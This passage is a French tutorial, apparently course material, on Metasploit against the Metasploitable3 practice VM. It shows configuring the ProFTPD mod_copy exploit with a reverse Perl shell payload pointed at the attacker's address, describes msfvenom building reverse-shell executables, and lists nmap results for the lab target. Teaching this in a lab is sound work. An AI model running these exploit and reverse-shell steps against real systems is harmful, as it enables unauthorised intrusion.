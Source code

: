 La commande `show options` nous permet de revoir les options auxquelles se sont ajoutées celles du payload :
```zsh
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > show options

(...)

Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

```

L’option **LHOST** doit correspondre à l’adresse de l'attaquant (Kali) :
```zsh
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set lhost 192.168.229.129
lhost => 192.168.229.129
```

Lorsque toutes les options sont correctement configurées et qu'on est prêt à lancer l'attaque, on utilise la commande `run`.

### _msfvenom_
Parfois il est possible qu'une attaque ne puisse pas être réalisée directement via Metasploit, mais on souhaite quand même utiliser un module qui en fait partie. _Msfvenom_ peut alors être utilisé pour générer des payloads personnalisés qui peuvent prendre plusieurs formes: fichiers d'exploitation, _shellcodes_, etc. On peut donc par exemple créer un fichier exécutable qui contient le module `payload/windows/x64/shell/reverse_tcp`, et si on trouve le moyen de faire exécuter ce fichier sur la machine cible, celle-ci tentera d'établir un shell inversé sur Kali, sans quon ait besoin d'utiliser Metasploit.

_Msfvenom_ est donc un programme complémentaire à Metasploit qui permet d'utiliser les fonctionnalités de création de payload de Metasploit à l'extérieur de celui-ci.


## Exemple d'utilisation de Metasploit

{{% notice warning "Préalables" %}}
Pour faire cet exemple, vous devez avoir installé la VM _Metasploitable_ conformément aux directives décrites ici : [https://github.com/rapid7/metasploitable3/](https://github.com/rapid7/metasploitable3/). 
{{% /notice %}}

### Énumération

La première étape est de lancer `nmap` sur la cible afin de voir quels services pourraient être vulnérables. On détecte les services suivants :

```
PORT     STATE  SERVICE     VERSION
21/tcp   open   ftp         ProFTPD 1.3.5
22/tcp   open   ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 
80/tcp   open   http        Apache httpd 2.4.7
445/tcp  open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
631/tcp  open   ipp         CUPS 1.7
3000/tcp closed ppp
3306/tcp open   mysql       MySQL (unauthorized)
3500/tcp closed rtmp-port
6697/tcp open   irc         UnrealIRCd
8080/tcp open   http        Jetty 8.1.7.v20120910
8181/tcp closed intermapper
```
